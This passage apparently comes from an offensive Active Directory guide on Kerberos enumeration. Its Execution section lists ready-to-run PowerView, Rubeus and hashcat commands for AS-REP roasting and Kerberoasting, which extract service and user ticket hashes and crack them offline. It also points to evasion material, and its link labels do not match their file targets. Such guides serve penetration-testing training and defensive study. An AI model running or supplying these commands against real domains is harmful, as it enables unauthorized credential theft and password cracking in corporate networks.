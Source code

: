 ## 📚 **NEXT STEPS**

After mastering Basic Kerberos Enumeration, continue with:
- **SPN Enumeration**: See [14_SPN_Enumeration_Techniques.md](./24_SPN_Enumeration_Techniques.md)
- **Delegation Abuse**: See [15_Kerberos_Delegation_Abuse.md](./25_Kerberos_Delegation_Abuse.md)
- **Advanced Attacks**: See [16_Kerberos_Advanced_Attacks.md](./26_Kerberos_Advanced_Attacks.md)

---

## ⚔️ Execution

### AS-REP Roasting (no pre-auth)
```powershell
# Discover ASREP roastable users (PowerView)
Get-DomainUser -PreauthNotRequired -Properties samaccountname | Select samaccountname

# Request AS-REP hashes (Rubeus)
.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.hashes

# Crack
hashcat -m 18200 asrep.hashes wordlist.txt --force
```
- See: `16_Kerberos_Advanced_Attacks.md` for OPSEC/cleanup. See detection: `11_Detection_Blue_Team.md` (4771), evasion: `12_Detection_Red_Team.md`.

### Baseline Kerberoasting
```powershell
# Identify SPN users
Get-DomainUser -SPN | Select samaccountname,serviceprincipalname

# Request TGS (Rubeus)
.\Rubeus.exe kerberoast /outfile:roast.hashes

# Crack
hashcat -m 13100 roast.hashes wordlist.txt --force
```
- Target high-value SPNs identified in `14_SPN_Enumeration_Techniques.md`.


---

## At‑a‑Glance

### Command Quick‑Reference
| Tool | Purpose | Example | Notes |
| - | - | - | - |
| nltest | KDC/DC | nltest /dsgetdc:corp.local /kerberos | KDC target
| klist | Tickets | klist | TGT/TGS cache
| ksetup | Realm cfg | ksetup /dumpstate | Policy view
| PowerView | Policies | (Get-DomainPolicy).KerberosPolicy | Baseline
